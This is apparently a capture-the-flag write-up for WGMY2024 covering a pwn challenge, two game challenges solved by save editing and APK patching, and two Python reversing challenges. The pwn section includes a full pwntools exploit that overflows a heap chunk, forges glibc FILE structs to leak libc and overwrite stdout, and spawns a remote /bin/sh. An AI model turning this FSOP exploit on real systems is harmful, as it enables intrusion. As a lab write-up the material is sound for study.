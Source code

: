 # WGMY2024

## Table of Contents
- [pwn/screenwriter](#pwnscreenwriter)
- [game/world 1](#gameworld-1)
- [game/world 2](#gameworld-2)
- [rev/stones](#revstones)
- [rev/sudoku](#revsudoku)

## Pwn/Screenwriter

Challenge Description : Use our software to craft your next blockbuster hit!

Challenge Summary : This challenge involves overwriting the FILE struct to gain arbitrary read and write

<details>
<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    return;
}

void menu(){
    puts("1. Set screenwriter name");
    puts("2. Write script");
    puts("3. View reference");
    puts("4. Exit");
}

int get_choice(){
    char tmp[5] = "";
    printf("Choice: ");
    fgets(tmp,4,stdin);
    return atoi(tmp);
}

void main(){
    init();
    char* name = malloc(0x28);
    FILE *ref_script = fopen("bee-movie.txt","r");
    FILE *own_script = fopen("script.txt","w");
    puts("Welcome to our latest screenwriting program!");
    
    while (true){
        int choice = 0;
        menu();

        switch (get_choice()) {
            case 1:
                printf("What's your name: ");
                read(0,name,0x280);
                break;        

            case 2:
                char own_buf[0x101] = "";
                printf("Your masterpiece: ");
                read(0,own_buf,0x100);
                fwrite(own_buf,1,0x100,own_script);
                break;

            case 3:
                char ref_buf[0x11] = "";
                memset(ref_buf,0,0x11);
                fread(ref_buf,1,0x10,ref_script);
                puts("From the reference:");
                puts(ref_buf);
                break;

            default:
                printf("Goodbye %s",name);
                exit(0);
        }
    }
}
```

</details>

Looking at the source code, we can see an obvious buffer overflow in option 1 which lets us overwrite data in the heap. However, it is not immediately clear what we are suppose to overwrite.

![image](https://github.com/user-attachments/assets/34f34683-5893-4583-8a32-cc9c67c230cc)

Looking at it in gdb, we can see our name chunk with size 0x31 at the top. After that, theres another chunk with size 0x1e1 followed by the value 0xfbad2488. When I saw this value, FSOP immediately came to mind. What is a FILE struct? Lets let @Ren explain 

![image](https://github.com/user-attachments/assets/9614f272-4910-4799-9d79-8f3a70ec1e0d)

You can take a look at the definition in [elixir bootlin](https://elixir.bootlin.com/linux/v6.12.6/source)

<details>
<summary>FILE Struct</summary>

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

</details>

The FILE Struct contains many fields which manage buffering.

### Analysis

![image](https://github.com/user-attachments/assets/03c4a9dd-ef7a-4ef6-a6df-42a5cf45204f)

After using option 3, we can see that the struct is now populated with values.

![image](https://github.com/user-attachments/assets/d9123403-d0ad-450e-b409-864d182c755a)

The contents of the bee script is read into 0x405690 which corresponds to the values in the struct above. Now, our goal will be to overwrite the pointers on the struct to trick it into thinking theres a buffer located somewhere else. Then we will use option 3 to leak this value. Our target will be the GOT entry of puts()

```
GOT protection: Full RelRO | GOT functions: 13

[0x403f88] puts@GLIBC_2.2.5  →  0x7ffff7c80ed0
```

```py
payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)
```

![image](https://github.com/user-attachments/assets/32f89dfc-24e7-4817-abcd-78f7ad8980bd)

Now that we know where is libc, maybe we can spawn a shell on the server. To do that, we need to be able to freely write anywhere in memory. Luckily for us, there is a 2nd file struct which lets us write data. Now, we should overwrite the struct fields to trick libc into thinking that the buffer is located somewhere else. But where should we write to? I used [angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to spawn shell on server. 

### Getting Arbitrary Write

```py
payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)
```

![image](https://github.com/user-attachments/assets/52214079-50ad-4ed1-92da-b9907e244482)

Now, the buffer for our write is located at `_IO_2_1_stdout_`. The next thing to do would be to overwrite stdout with our payload.

![image](https://github.com/user-attachments/assets/ed3c8a0d-a18c-4f47-aca7-60b5718e81c0)

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = exe.libc

host = "43.216.119.115"
port = 32782

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"Choice: ", "3")

payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)

sla(b"Choice: ", "1")
s(payload)
sla(b"Choice: ", "3")

ru(b"reference:\n")
libc.address = u64(rl() + b"\x00\x00") - (0x7f9149c80ed0 - 0x00007f9149c00000)
environ = libc.sym["environ"]
li(f"Libc base @ {hex(libc.address)}")

stdout_lock = libc.address + 0x21ba70
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x0000000000163830

payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)

print(hex(len(payload)))
sla(b"Choice: ", "1")
s(payload)

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

print(hex(len(bytes(fake))))
sla(b"Choice: ", "2")
s(bytes(fake))

# debug()

p.interactive()
```

</details>

### Side Note

There are multiple ways to solve this challenge, potentially overwriting the return address of read() or overwriting the exit functions handler with a one gadget. I tried both but it didnt work for me so I guess its a skill issue. Though, I was very satisfied with this because its my first time solving a FSOP challenge after reading writeups about it.

## Game/World 1

When saving the game, we get a RMMZSave file which we can edit using this [Save Edit](https://www.saveeditonline.com/)

![image](https://github.com/user-attachments/assets/dcad718c-1093-455f-9ccf-97b2d4f7ccff)

Then, just play the game and one shot the bosses to get all the flag. Flag 1, 2 and 3 is obtainable by killing the boss. Flag 4 can be obtained by killing the lava world boss and walking back out. The flag is written on the floor. The final flag is obtained by unlocking the chest and entering the password "wgmy". Hints about the password is given as "23 7 13 25".

## Game/World 2

Open the apk in APKLab and look for interesting things. One thing I found was the Enemies.json

![image](https://github.com/user-attachments/assets/1129c465-dc52-4921-a649-cdac2b4fed99)

`"params":[600,0,20,20,20,20,20,20]`

I assumed the params are the stats of the monster and just modified the biggest number (assuming to be HP) to 1. Then, recompile the APK and sign it. Then install the game in BlueStacks and play through the game to get all the flags. Flags are obtained in the same way as World 1

## Rev/Stones

Running strings on the file shows that its a python executable

![image](https://github.com/user-attachments/assets/bc14c56f-1ed3-41df-8970-2fe9d6a13a7b)

Use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) on the exe.

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: CHAL-stones.pyc (Python 3.10)

import requests
from datetime import datetime
from urllib.request import urlopen
from datetime import datetime
server_url = 'http://3.142.133.106:8000'
current_time = urlopen('http://just-the-time.appspot.com/')
current_time = current_time.read().strip()
current_time = current_time.decode('utf-8')
current_date = current_time.split(' ')[0]
local_date = datetime.now().strftime('%Y-%m-%d')
# print(current_date)
# print(local_date)
if current_date == local_date:
    print("We're gonna need a really big brain; bigger than his?")
first_flag = 'WGMY{1d2993'
user_date = current_date
params = {
    'first_flag': first_flag,
    'date': user_date }
response = requests.get(server_url, params, **('params',))
if response.status_code == 200:
    print(response.json()['flag'])
#     return None
# None(response.json()['error'])
```

</details>

From the challenge description, theres a `/flag` endpoint on the server so just navigate to `http://3.142.133.106:8000/flag` and the server will respond with a YouTube video link. Send a get request to `http://3.142.133.106:8000` with the date set to the upload date of the YouTube video will give us the flag.

## Rev/Sudoku

Once again, another python executable. Just use pyinstxtractor and pycdc to get the original code back

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: sudoku.pyc (Python 3.11)

import random
alphabet = 'abcdelmnopqrstuvwxyz1234567890.'
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my{[REDACTED]}'

def makeKey(alphabet):
    alphabet = list(alphabet)
    random.shuffle(alphabet)
    return ''.join(alphabet)

key = makeKey(alphabet)

def encrypt(plaintext, key, alphabet):
    pass
# WARNING: Decompyle incomplete

enc = encrypt(plaintext, key, alphabet)
```

</details>

### Solve

<details>
<summary>Solve Script</summary>

```py

```py
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my'
anotherrr = 'z v7o1 an7570 9d.tl3 7.4b 7n2pws .qodx v7oc ye68u m.7r, t728'

# Function to create a mapping from plaintext to anotherr
def create_mapping(plaintext, anotherr):
    # Initialize an empty dictionary to store the character mapping
    char_mapping = {}

    # Iterate over the characters in both strings
    for p_char, a_char in zip(plaintext, anotherr):
        if p_char != ' ' and a_char != ' ':  # Ignore spaces
            char_mapping[p_char] = a_char
    
    return char_mapping

# Create the mapping
mapping = create_mapping(plaintext, anotherrr)
encrypted_message = "t728{09er1bzbs9sx5sosu7719besr39zscbx}"

# Print the character mapping
# print("Character Mapping:")
i = 0
flag = ""
        
print(mapping)

for i in range(len(encrypted_message)):
    for p_char, a_char in mapping.items():
        if a_char == encrypted_message[i]:
            flag += p_char
print(flag)
```

</details>

![image](https://github.com/user-attachments/assets/605fcf21-3a9d-47d3-93f4-cc8227503e88)

Our output is `w.my2ba914045b56c5e58..1b4a593b05746` but since we know the flag format and we know that the hash is hex values, we can just fix the flag to `wgmy{2ba914045b56c5e58ff1b4a593b05746}`
